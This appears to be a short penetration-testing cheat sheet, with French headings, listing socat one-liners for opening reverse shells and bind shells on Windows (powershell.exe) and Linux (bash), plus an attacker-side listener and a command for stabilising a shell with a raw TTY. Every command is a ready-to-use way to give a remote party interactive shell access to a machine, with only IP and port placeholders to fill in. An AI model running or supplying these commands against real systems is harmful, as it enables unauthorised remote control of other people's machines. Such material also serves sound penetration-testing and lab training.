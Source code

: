 # Reverse shells

[Attaquant]
```
socat TCP-L:<port> -
```

Windows
```
socat TCP:<IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Linux

```
socat TCP:<IP>:<LOCAL-PORT> EXEC:"bash -li"
```

# Bind Shells

Windows
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Linux
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

[Attaquant]
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


### Stabiliser des shells avec socat

[Attaquant] target -> Linux
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

